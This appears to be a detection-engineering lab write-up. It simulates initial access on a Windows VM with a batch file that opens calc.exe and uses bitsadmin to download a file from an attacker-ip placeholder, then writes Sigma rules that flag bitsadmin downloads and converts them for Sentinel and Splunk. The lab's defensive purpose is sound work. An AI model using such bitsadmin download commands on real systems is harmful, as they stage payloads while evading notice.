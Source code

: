 ⚙️ Lab Setup

Victim Machine: Windows 10 Pro (VM)

Attacker Host: Windows 10 Pro (Host)

Tools:

bitsadmin.exe (Windows built-in binary)

calc.exe (benign process for visibility)

hello.txt (benign payload)

Batch file: simulate_initial_access.bat

Sigma CLI

🔹 Step 1: Create a Benign Payload

On the attacker host machine:

echo "Hello, LOLBAS Test" > C:\inetpub\wwwroot\hello.txt

🔹 Step 2: Host the File

Ensure the file is reachable:

Start-Service W3SVC


Check in browser:

http://<attacker-ip>/hello.txt

🔹 Step 3: Create Malicious Batch File

On the victim VM, create a file simulate_initial_access.bat with:

@echo off
start calc.exe
bitsadmin /transfer myDownloadJob /download /priority normal http://<attacker-ip>/hello.txt %USERPROFILE%\Downloads\hello.txt


This does two things:

Opens Calculator (benign distraction).

Downloads hello.txt (simulating a staged payload).

🔹 Step 4: Execute the File

On the VM:

simulate_initial_access.bat


✅ Calculator opens.
✅ File downloaded to C:\Users\<user>\Downloads\hello.txt.

🔹 Step 5: Verify File Download
cd %USERPROFILE%\Downloads
dir hello.txt

🔹 Step 6: Collect Logs (Detection Evidence)

Use Event Viewer / PowerShell:

Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4688 } | Format-List TimeCreated, Message


Key events observed:

cmd.exe → launched

bitsadmin.exe → executed with /transfer

powershell.exe (in related test)

🔹 Step 7: Write Sigma Rules

Three rules were created:

win_bitsadmin_download.yml

win_powershell_iwr_from_cmd.yml

win_powershell_network_download.yml

Example (win_bitsadmin_download.yml):

title: Bitsadmin File Download
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    EventID: 4688
    NewProcessName|endswith: '\bitsadmin.exe'
    CommandLine|contains:
      - '/transfer'
      - '/download'
condition: selection
level: high

🔹 Step 8: Validate Rules with Sigma CLI
pip install sigmatools


Validate YAML:

sigmac -t windows-audit win_bitsadmin_download.yml

🔹 Step 9: Convert to JSON (Sentinel Rule Example)
sigmac -t sentinel-rule win_bitsadmin_download.yml > win_bitsadmin_download.json
sigmac -t sentinel-rule win_powershell_iwr_from_cmd.yml > win_powershell_iwr_from_cmd.json
sigmac -t sentinel-rule win_powershell_network_download.yml > win_powershell_network_download.json


Now you have deployable JSON alert rules for Azure Sentinel.

🔹 Step 10: (Optional) Convert to Splunk/Sysmon

For Splunk:

sigmac -t splunk win_bitsadmin_download.yml


For Sysmon:

sigmac -t sysmon win_powershell_network_download.yml

📊 Results

Attack Simulated: .bat file used LOLBAS (bitsadmin) to download payload.

Detection Evidence: Windows Security Event ID 4688 logs.

Sigma Rules: Created for bitsadmin + PowerShell activity.

Converted Outputs: JSON rules ready for Sentinel, SPL queries for Splunk.

✅ Conclusion

This lab demonstrates:

How LOLBAS binaries can be misused for stealthy payload staging.

How to detect them with Sigma rules.

How to convert Sigma into platform-specific rules for SIEM integration.